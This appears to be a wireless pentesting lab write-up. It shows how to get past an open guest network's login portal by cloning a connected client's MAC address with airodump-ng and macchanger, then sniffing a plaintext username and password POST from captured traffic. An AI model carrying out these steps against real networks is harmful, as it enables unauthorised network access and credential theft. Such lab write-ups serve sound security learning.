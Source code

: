 1. free.conf like 05 hit the login wall.
2. To bypass this login we can use the MAC of a client connected to that network that we see with traffic, for that we can use `airodump-ng` again and impersonate one of those MAC.
3. https://github.com/V0lk3n/WirelessPentesting-CheatSheet/tree/89f80c36a8f1e9b4af6a220da374d2f8b4246de2?tab=readme-ov-file#display-wireless-card-mac-address
4. 
```bash
macchanger -s wlan0
[ERROR] Set device name: No such device

macchanger -s wlan2
Current MAC:   8e:16:c5:b6:e7:3b (unknown)
Permanent MAC: 02:00:00:00:02:00 (unknown)

macchanger -s wlan2
Current MAC:   ba:1d:37:4b:53:64 (unknown)
Permanent MAC: 02:00:00:00:02:00 (unknown)
```

5. Get client mac
```bash
sudo airodump-ng wlan0mon -c 6


 CH  6 ][ Elapsed: 24 s ][ 2024-05-20 16:43 ][ paused output                                                                                     
                                                                                                                                                 
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID                                                             
                                                                                                                                                 
 96:88:B6:01:DE:DE  -28 100      246        0    0   6   54   WPA2 CCMP   PSK  MiFibra-5-D6G3                                                    
 5A:70:5E:52:94:AC  -28 100      246        0    0   6   54   WPA2 CCMP   PSK  WIFI-JUAN                                                         
 F0:9F:C2:71:22:10  -28   0      246       66    2   6   54   OPN              wifi-guest                                                        
 F0:9F:C2:71:22:12  -28   0      246       72    1   6   54   WPA2 CCMP   PSK  wifi-mobile                                                       
 F0:9F:C2:AA:19:29  -28   0      246     9234  369   1   54   WEP  WEP         wifi-old                                                          
                                                                                                                                                 
 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes                                                               
                                                                                                                                                 
 (not associated)   64:32:A8:BA:18:42  -26    0 - 1      0        2                                                                              
 (not associated)   64:32:A8:07:6C:40  -26    0 - 1      0        6         AP_router,wifi-corp                                                  
 (not associated)   B4:99:BA:6F:F9:45  -49    0 - 1     12       12         wifi-offices,Jason                                                   
 (not associated)   64:32:A8:BA:6C:41  -26    0 - 1      0        4         wifi-corp                                                            
 (not associated)   78:C1:A7:BF:72:46  -49    0 - 1     12       12         wifi-offices,Jason                                                   
 (not associated)   64:32:A8:AD:AB:53  -49    0 - 1      8       12         wifi-corp-legacy                                                     
 F0:9F:C2:71:22:10  B0:72:BF:B0:78:48  -29   54 -54      0        4                                                                              
 F0:9F:C2:71:22:10  B0:72:BF:44:B0:49  -29   54 -54      0        6                                                                              
 F0:9F:C2:71:22:10  80:18:44:BF:72:47  -29   54 -54      0       56
 ```
 Last three are the ones

6. Let's impersonate

```bash
sudo systemctl stop network-manager

sudo ip link set wlan2 down

sudo macchanger -m B0:72:BF:44:B0:49 wlan2

sudo ip link set wlan2 up
```

`sudo dhclient -v wlan2`

If not working, do a reset here.

7. Once we have changed the mac with “macchanger” we connect again with “wpa_supplicant” and we can see that we can access the server login.

To obtain the login credentials we make a capture of “airodump-ng” saving the output with “-w” and after a while (3–5 min approx) we can see HTTP requests in the “.cap” file with “wireshark” in which there is a POST with username and password.

```bash
sudo airmon-ng start wlan0

sudo airodump-ng wlan0mon -c 6 -w wifi-guest.cap <- no need for .cap extension

        new file:   OPN/06/wifi-guest.cap-01.cap
        new file:   OPN/06/wifi-guest.cap-01.csv
        new file:   OPN/06/wifi-guest.cap-01.kismet.csv
        new file:   OPN/06/wifi-guest.cap-01.kismet.netxml
        new file:   OPN/06/wifi-guest.cap-01.log.csv
```

8. WireShare check the plain password

HTML Form URL Encoded: application/x-www-form-urlencoded

Login with creds done.